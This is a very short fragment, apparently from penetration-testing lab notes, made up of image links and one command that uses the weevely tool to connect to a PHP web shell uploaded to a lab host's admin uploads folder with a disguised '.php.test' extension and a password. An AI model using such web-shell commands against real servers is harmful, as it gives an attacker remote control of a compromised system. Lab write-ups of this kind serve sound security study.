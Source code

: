             ![](wv_3.PNG)
        - ```
            weevely http://10.0.2.7/admin/uploads/shell_1.php.test password123
            ```            